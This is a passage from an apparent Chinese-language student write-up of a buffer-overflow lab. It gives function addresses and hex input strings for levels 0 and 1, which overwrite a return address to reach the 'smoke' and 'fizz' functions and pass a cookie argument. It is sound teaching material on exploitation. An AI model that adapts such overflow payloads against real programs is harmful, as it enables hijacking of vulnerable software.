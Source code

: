 - 根据反汇编代码，`smoke` 函数的地址为 `0x08048e20`

- 因此，可以将 `buf` 设为：`48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 20 8e 04 08 00 00 00 00`

- 结果：

  ![result](./fig/lab3_level0_result.png)

### level1

- `fizz` 函数的地址为 `0x08048dc0`

- 并且我们需要设置参数的值为 `cookie`，由于地址 `-(0xc + 0x8)%ebp` 存储 `%esp` 指针的值，所以参数在地址 `-(0xc + 0x16)%ebp` 传入

- 因此，可以将 `buf` 设为：`48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 48 c0 8d 04 08 00 00 00 00 28 02 3b 42`

- 结果：

  ![result](./fig/lab3_level1_result.png)